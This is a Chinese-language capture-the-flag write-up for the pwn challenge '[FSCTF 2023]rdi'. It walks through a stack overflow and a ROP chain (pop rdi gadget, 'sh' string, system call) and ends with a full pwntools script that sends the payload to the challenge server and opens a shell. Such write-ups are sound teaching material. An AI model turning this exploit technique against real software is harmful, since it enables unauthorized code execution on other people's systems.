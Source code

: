 ## 基本信息

- 题目名称：[FSCTF 2023]rdi
- 题目链接：https://www.nssctf.cn/problem/4444
- 考点清单：ret2text，rop
- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

-   程序基本信息，64位程序，仅开放NX保护

![](./images/rdi-info.png)

-   三个自定义函数（包含main）

![](./images/rdi-main.png)

## 二、想到什么解题思路

### 第一轮

-   read函数存在0xa0-0x80=0x20空间的栈溢出
-   通过修改main函数返回地址，重定向到gift函数
-   通过修改栈内空间[rbp-0x8]，写入"/bin/sh"

### 第二轮

-   回过神来发现read在main上，对于gift的栈不好修改，发现info里面存在"sh"字符串，改用rop
-   sys地址0x4006fb
-   pop_rdi地址待查找
-   "sh"字符串0x40080d（通过0x4007f4去掉前面的字符）

## 三、尝试过程和结果记录

-   $padding=8lines\times4words\times4bytes+2words\times4bytes=136bytes$
-   payload=padding*b'a'+p64(pop_rdi)+p64(sh_addr)+p64(sys)
-   查找pop_rdi地址为0x4007d3

![](./images/rdi-gadget.png)

-   sendline，成功getshell

## 四、Payload

```python
from pwn import *

lc = "./rdi"

rm = "node4.anna.nssctf.cn"
prt = 28200

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

sys = p64(0x4006fb)
pop_rdi = p64(0x4007d3)
sh_addr = p64(0x40080d)
padding = 136*b'a'
payload = padding + pop_rdi + sh_addr + sys

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()
p.recvuntil("answer:\n")
p.sendline(payload)

p.interactive()
```

